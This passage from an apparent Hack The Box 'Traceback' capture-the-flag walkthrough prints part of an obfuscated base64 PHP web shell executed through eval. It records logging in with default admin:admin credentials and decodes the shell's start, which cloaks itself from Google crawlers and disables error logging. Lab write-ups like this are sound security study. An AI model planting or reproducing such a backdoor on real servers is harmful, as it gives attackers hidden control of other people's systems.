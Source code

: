 ```php
ZScsMCk7CkBzZXRfdGltZV9saW1pdCgwKTsKQHNldF9tYWdpY19xdW90ZXNfcnVudGltZSgwKTsKaWYoIGdldF9tYWdpY19xdW90ZXNfZ3Bj\
KCkgKSB7CiAgICBmdW5jdGlvbiBzdHJpcHNsYXNoZXNfYXJyYXkoJGFycmF5KSB7CiAgICAgICAgcmV0dXJuIGlzX2FycmF5KCRhcnJheSkg\
PyBhcnJheV9tYXAoJ3N0cmlwc2xhc2hlc19hcnJheScsICRhcnJheSkgOiBzdHJpcHNsYXNoZXMoJGFycmF5KTsKICAgIH0KICAgICRfUE9T\
VCA9IHN0cmlwc2xhc2hlc19hcnJheSgkX1BPU1QpOwp9CgpmdW5jdGlvbiBwcmludExvZ2luKCkgewogaWYgKCRfUE9TVFsncGFzcyddICE9\
ICRhdXRoX3Bhc3MgJiYgJF9QT1NUWyd1bmFtZSddICE9ICRVc2VyTmFtZSkgewogICAgJHN0YXR1cyA9ICdXcm9uZyBQYXNzd29yZCBvciBV\
...snipped...
ZXhpc3RzKCdhY3Rpb24nIC4gJF9QT1NUWydhJ10pICkKICAgIGNhbGxfdXNlcl9mdW5jKCdhY3Rpb24nIC4gJF9QT1NUWydhJ10pCgo/Pg==";
eval("?>".(base64_decode($smevk)));
?>
```

The code came with hard-coded default credentials of `admin:admin`. I tried them out on the login page, and was granted access to the shell page.

![Screenshot of the web shell admin page](/assets/img/screenshot_2020-06-22_13-18-32.png)

When I first started poking around, clicking on buttons and trying to use the shell to enumerate the system I was getting a bit frustrated.  Nothing seemed to be working.  Below are my original notes:

> It seems as if a lot of the functionality was stripped out...most of the buttons do nothing. Never mind...DOESNT WORK IN FIREFOX!!!! &gt; worked just fine in Chromium!

For some reason the web shell did not function properly in Firefox.  When I finally got tired of banging my head against the shell trying to find something that worked, I decided to try opening it in Chromium instead...and everything worked!

```php
zweilos@kali:~/htb/traceback$ echo 'PD9waHAKCiRkZWZhdWx0X2FjdGlvbiA9ICdGaWxlc01hbic7CkBkZWZpbmUoJ1NFTEZfUEFUSCcsIF9fRklMRV9fKTsKaWYoIHN0cnBvcygkX1NFUlZFUlsn\
SFRUUF9VU0VSX0FHRU5UJ10sJ0dvb2dsZScpICE9PSBmYWxzZSApIHsKICAgIGhlYWRlcignSFRUUC8xLjAgNDA0IE5vdCBGb3VuZCcpOwog\
ICAgZXhpdDsKfQoKQHNlc3Npb25fc3RhcnQoKTsKQGVycm9yX3JlcG9ydGluZygwKTsKQGluaV9zZXQoJ2Vycm9yX2xvZycsTlVMTCk7CkBp\
bmlfc2V0KCdkaXNwbGF5X2Vycm9ycycsMCk7CkBpbmlfc2V0KCdsb2dfZXJyb3JzJywwKTsKQGluaV9zZXQoJ21heF9leGVjdXRpb25fdGlt\
ZScsMCk7CkBzZXRfdGltZV9saW1pdCgwKTsKQHNldF9tYWdpY19xdW90ZXNfcnVudGltZSgwKTsKaWYoIGdldF9tYWdpY19xdW90ZXNfZ3Bj\
KCkgKSB7CiAgICBmdW5jdGlvbiBzdHJpcHNsYXNoZXNfYXJyYXkoJGFycmF5KSB7CiAgICAgICAgcmV0dXJuIGlzX2FycmF5KCRhcnJheSkg\
PyBhcnJheV9tYXAoJ3N0cmlwc2xhc2hlc19hcnJheScsICRhcnJheSkgOiBzdHJpcHNsYXNoZXMoJGFycmF5KTsKICAgIH0KICAgICRfUE9T\
VCA9IHN0cmlwc2xhc2hlc19hcnJheSgkX1BPU1QpOwp9CgpmdW5jdGlvbiBwcmludExvZ2luKCkgewogaWYgKCRfUE9TVFsncGFzcyddICE9\
ICRhdXRoX3Bhc3MgJiYgJF9QT1NUWyd1bmFtZSddICE9ICRVc2VyTmFtZSkgewogICAgJHN0YXR1cyA9ICdXcm9uZyBQYXNzd29yZCBvciBV\
c2VyTmFtZSA6KCc7CiAgICAKCn0KCj8' | base64 -d
<?php

$default_action = 'FilesMan';
@define('SELF_PATH', __FILE__);
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) {
    header('HTTP/1.0 404 Not Found');
    exit;
}

@session_start();
@error_reporting(0);
@ini_set('error_log',NULL);
```